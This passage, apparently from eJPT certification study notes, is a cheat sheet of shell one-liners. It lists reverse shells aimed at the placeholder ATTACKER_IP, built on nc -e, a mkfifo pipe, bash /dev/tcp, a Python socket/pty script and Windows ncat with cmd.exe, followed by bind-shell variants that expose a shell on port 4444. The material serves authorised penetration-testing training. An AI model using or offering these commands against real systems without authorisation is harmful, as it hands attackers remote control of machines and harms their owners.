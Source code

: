 ### 6) Reverse shell (typical in eJPT)
Attacker (listener):
```bash
nc -lvnp 4444
```
Victim (Linux) — if nc supports -e:
```bash
nc -nv ATTACKER_IP 4444 -e /bin/bash
```
Victim (Linux) — mkfifo fallback when -e is unavailable:
```bash
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc -nv ATTACKER_IP 4444 > /tmp/f
```
Victim (Linux) — bash TCP built-in:
```bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'
```
Victim (Python available):
```bash
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("ATTACKER_IP",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

Windows (using Nmap’s ncat.exe which supports -e):
Attacker (listener):
```bash
nc -lvnp 4444
```
Victim (Windows):
```powershell
"C:\Program Files (x86)\Nmap\ncat.exe" -nv ATTACKER_IP 4444 -e cmd.exe
```

### 7) Bind shell (target listens, attacker connects)
Victim (Linux) — if -e is available:
```bash
nc -lvnp 4444 -e /bin/bash
```
Victim (Linux) — mkfifo fallback:
```bash
rm -f /tmp/f; mkfifo /tmp/f
nc -lvnp 4444 < /tmp/f | /bin/sh -i 2>&1 > /tmp/f
```
Attacker:
```bash
nc -nv VICTIM_IP 4444
```

Windows bind shell with ncat:
Victim:
```powershell
"C:\Program Files (x86)\Nmap\ncat.exe" -lvnp 4444 -e cmd.exe
```
Attacker:
```bash
nc -nv VICTIM_IP 4444
```
